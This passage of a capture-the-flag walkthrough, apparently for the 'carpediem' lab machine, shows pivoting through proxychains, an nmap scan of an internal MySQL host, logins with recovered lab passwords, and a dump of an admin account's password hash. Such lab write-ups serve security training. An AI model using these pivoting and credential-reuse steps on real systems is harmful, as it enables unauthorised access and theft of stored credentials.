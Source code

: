 ```bash
## Verify connection with nmap
➜  carpediem proxychains nmap -sT --top-port 25 --open 172.17.0.3
[... snip ...]
PORT     STATE SERVICE
3306/tcp open  mysql
```

Login to the MySQL database and try to extract valuable information:
```bash
➜  carpediem proxychains mysql -h 172.17.0.3 -D portal -u portaldb -p
Enter password: J5tnqsXpyzkK4XNt

MySQL [portal]> show tables;
+------------------+
| Tables_in_portal |
+------------------+
| bike_list        |
| brand_list       |
| categories       |
| file_list        |
| rent_list        |
| system_info      |
| users            |
+------------------+

MySQL [portal]> select * from users where username = 'admin';
+----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
| id | firstname | lastname | gender | contact                | username | password                         | address | avatar                            | last_login | login_type | date_added          | date_updated        |
+----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
|  1 | Jeremy    | Hammond  | Male   | jhammond@carpediem.htb | admin    | b723e511b084ab84b44235d82da572f3 |         | uploads/1635793020_HONDA_XADV.png | NULL       |          1 | 2021-01-20 14:02:37 | 2022-04-01 23:34:50 |
+----+-----------+----------+--------+------------------------+----------+----------------------------------+---------+-----------------------------------+------------+------------+---------------------+---------------------+
```

Unfortunately we're not able to crack the hash using hashcat. 

Lets test the other set of credentials found in `/usr/bin/env`, we don't have a username so I'm guessing it's default `root`:
```bash
➜  carpediem proxychains mysql -h 172.17.0.3 -P 3306 -u root -p
Enter password: 3dQXeqjMHnq4kqDv

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| portal             |
| sys                |
+--------------------+
```
